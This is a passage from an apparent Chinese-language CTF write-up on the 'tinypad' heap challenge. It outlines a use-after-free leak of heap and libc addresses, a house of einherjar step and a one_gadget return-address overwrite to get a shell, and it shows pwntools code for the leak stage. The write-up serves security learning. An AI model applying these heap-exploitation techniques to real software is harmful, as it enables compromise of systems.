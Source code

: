 

## 0x04 exploit

利用思路：

- 利用UAF泄漏heap和libc地址
- 在tinypad.buffer中伪造chunk，house of einherjar修改tinypad.buffer中的指针
- 开了FULL RELRO，因此泄漏libc中的env，得到stack addr，修改main 的返回地址为onegadget getshell

### 1. 利用UAF泄漏heap和libc地址

创建两个smallbin的chunk，并free，由于存在UAF，可以读取chunk中的fd内容（\x00截断后面内容不能读）。因此可以泄漏libc和堆地址。注意main_arena的symbols在libc中没有，需要手工计算一下。

```python
def leak():
    add(0x88, "1"*0x88) # 1
    add(0x38, "2"*0x38) # 1 2
    add(0x100, "3"*0x92) # 1 2 3
    add(0x40, "4"*0x2f) # 1 2 3 4

    delete(3) # main_arena+0x88  # 1 2 [] 4
    delete(1) # heap+0xb0        # [] 2 [] 4

    io.recvuntil("INDEX: 1\x0a # CONTENT: ")
    logo = "\x0a\x0a\x0a+---"
    leak_heap = io.recvuntil(logo).split(logo)[0]
    heap_base = u64(leak_heap.ljust(8,"\x00")) - 0xc0 # leak_addr to 8 bytes and decode to int
    log.success("heap_base %#x", heap_base)

    io.recvuntil("INDEX: 3\x0a # CONTENT: ")
    logo = "\x0a\x0a\x0a+---"
    leak_libc = io.recvuntil(logo).split(logo)[0]
    libc.address = u64(leak_libc.ljust(8,"\x00"))  - 0x3c4b78 # main_arena offset, fail: libc.symbols['main_arena'] # leak_addr to 8 bytes and decode to int
    log.success("lib.address %#x", libc.address)

    add(0x100, "thinkycx") # 3 2 [] 4 FIFO
    add(0x88, "thinkycx") # 3 2 1 4

    offset = heap_base + 0xc0 - elf.symbols['tinypad']
    log.info("fake_prev_size %#x", offset)

    return offset
```

free两个smallbin的chunk3 和 chunk1后：
